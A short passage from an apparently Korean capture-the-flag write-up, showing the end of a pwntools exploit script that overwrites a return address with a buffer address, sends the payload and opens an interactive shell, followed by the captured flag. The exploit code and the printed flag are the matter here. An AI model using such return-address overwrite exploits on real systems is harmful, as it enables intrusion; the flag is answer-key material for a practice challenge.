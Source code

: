 ```py
            p64(int(buf_addr,16))               # ret addr 변경. buf주소로
)

p.sendafter("Input: ",payload)

p.interactive()

```

![image](https://user-images.githubusercontent.com/33647663/168714965-079f64d0-94e1-4b23-8e88-e6fd7e1bec0a.png)

```
flag : DH{333eb89c9d2615dd8942ece08c1d34d5}
```